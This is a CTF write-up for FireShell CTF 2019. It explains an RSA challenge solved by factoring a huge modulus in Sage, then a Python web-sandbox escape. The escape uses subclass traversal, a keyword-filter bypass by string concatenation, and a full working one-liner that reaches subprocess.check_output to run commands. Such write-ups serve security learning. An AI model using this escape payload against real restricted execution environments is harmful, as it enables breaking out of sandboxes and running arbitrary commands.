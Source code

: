 # FireShell CTF Writeups

Fireshell CTF was a decent CTF that took place 1/26/2019. Some of the challenges were pretty cool, but derivative of past challenges. Some of the "cons" of the CTF are that there was unscheduled downtime, late-added challenges, weird dynamic scoring (one of the questions had 3 less solves but was worth twice as many points as another question) and a language barrier that made some questions a bit harder than they needed to be.

I'm composing a couple write-ups for the questions I completed that don't have writeups on ctftime.

# Biggars

### Overview

Given a text file [which I renamed to biggars.py so I could import it easily into my python code] with the variables e, N, C defined. The question's text is pretty irrelevant.


### The Solve

Since the question gives the tuple `(e,N,C)` without any further info, we can immediately assume this is an RSA question (see reference 1). In short, we know `M^e = C mod N` and want to find `d` such that `d*e = 1 mod phi(N)` so we can calculate `C^d = M mod N`. Most of the time RSA questions are solved by computing `phi(N)` after factoring `N`. Sometimes we calculate `d` directly.

Most `N` are around 1024-4096 bits... Taking a look at this one, it is over 500,000 bits long. This is very fishy and my intuition here is that `N` can be factored (and probably very quickly). My first step for RSA problems is always to pop `N` into [factordb.com](factordb.com), but it is too large for the server. The alternative is to enter a `sage` shell and utilize their built-in number theory functionality. Import the three variables into the shell so we can use them, and `factor(N)` to see that `N` can be fully factored in milliseconds! This is good news, and makes the rest of the problem fairly straightforward.

Sage is a real workhorse here. `p = euler_phi(N)` calculates euler's totient for us. Then `d = inverse_mod(e, p)` calculates the multiplicative inverse of `e mod p`, our decryption exponent. Now a quick calculation of `M = pow(C,d,N)` and...

*10 minutes later*

Ok, the calculation still isn't complete, it looks like the numbers may be too big to compute efficiently. To be on the safe side I open a new terminal tab running a `pypy` shell on my Linux laptop alongside the original `sage` tab, and a regular python shell on my beefier desktop to see if either will finish more quickly, and let them compute for awhile. After ~30 minutes, the original sage computation finishes first, yielding the number `M = 2285997671207389169910475407268635357578225559267332896350087006464155634525015356776294350090`. Intuitively, this is a good number to see because if one of my previous steps was incorrect, then `M` would essentially be random bits with length ~= to the length of `N`. Since `M` is so small, it is unlikely to be wrong. My first instinct is to convert this integer to its ascii value, which can be done with the pyCrypto library function long_to_bytes: `from Crypto.Util.number import long_to_bytes`, and finally `print(long_to_bytes(M))`, which yields the flag!

### References

1. [https://en.wikipedia.org/wiki/RSA_(cryptosystem)#Operation](https://en.wikipedia.org/wiki/RSA_(cryptosystem)#Operation)
1. [http://www.sagemath.org/](http://www.sagemath.org/)
1. [https://github.com/dlitz/pycrypto](https://github.com/dlitz/pycrypto)

# Python Learning Environment

### Overview

This question gives a link to a webpage with a hint that implies we are in some sort of limited web shell for python. We have a text box that POSTs our input to the server and responds with the output of our commands. Some basic recon reveals the python web shell is pretty strict and probably want to execute system code to read a file or interact somehow with the OS.

It becomes clear pretty quickly that we can't directly interact with the OS. The webpage has a javascript filter that parses the request and removes certain keywords. The request will print simply a `syntaxerror on line X` whenever something goes wrong, which isn't very descriptive. From my experimentation, I gather:

1. Some strings such as `'os'` and `'subprocess'` are illegal and removed by the javascript filter
2. The __builtins__ attribute is cleared - this means no builtin functions such as int(), chr(), etc. Notably, we can't import or use __import__
3. Square brackets `[`, `]` are illegal and removed
4. Ints are messed with, I didn't figure out exactly how but most ints are converted into another int - so I avoided them completely
5. Only the variable `test` is allowed. I'll add a little more challenge by making this a 1-liner. [I was apparently incorrect about this, but it affected my solve]

I generally follow along with the first reference below. The general strategy is to:

1. Access the base object class
1. Use that to access the warnings.catch_warnings subclass
1. Follow the members to the `__builtins__` attribute of this class
1. Use **this** `__import__` to import subprocess
1. subprocess.check_output() to run commands

You can follow along at home in a regular python shell by following the guidelines above.

### The Solve

First, doing `test = {}.__class__.__base__.__subclasses__()` works fine and as expected. We now have the classes list.

Second, we need to access the catch_warnings subclass. In our case, it is the 59th element of the list, but we can't directly access it using brackets, and even if we could, we can't directly use an int. So we need an alternative. `dir(test)` gives a list of the methods we can use. `__getitem__` probably works, but I went with `pop(X)`, which returns the element at the `X` position. This dir also gives us a solution to the `int` problem - `index`.

Next, we can build a tuple to return us the proper int: `(('a')*59+('b')).index('b')` returns 59. Let's add this in to our command: `test = {}.__class__.__base__.__subclasses__().pop((('a')*59+('b')).index('b'))()`. We can append `._module.__builtins__` without issue to get a dict, from which we need to access the value corresponding to the key `'__import__'`.

Fourth, run `print test.keys()` to show we need the 109th value from this list. We could access the corresponding values list and return our value with `test.values()[109]`, but we need to use the same `pop`/`index` workaround as before to get to the `__import__` function: `test = {}.__class__.__base__.__subclasses__().pop((('a')*59+('b')).index('b'))()._module.__builtins__.values().pop((('c')*109+('d')).index('d'))` is the function object for `__import__`! Now we can call it to import subprocess, but since `'subprocess'` is blacklisted, a simple bypass `'sub' + 'pro' + 'cess'` bypasses this.

Finally, since subprocess is imported, we can interact with the system using `subprocess.check_output(cmd)`. First, to enumerate our test system let's run `'ls'` with `subprocess.check_output('ls')`: `print {}.__class__.__base__.__subclasses__().pop((('a')*59+('b')).index('b'))()._module.__builtins__.values().pop((('c')*109+('d')).index('d'))('subprocess').check_output('ls')` prints the directory. Luckily, one of the file names is the flag and we are done!

### References

1. https://gynvael.coldwind.pl/n/python_sandbox_escape
1. http://wapiflapi.github.io/2013/04/22/plaidctf-pyjail-story-of-pythons-escape/
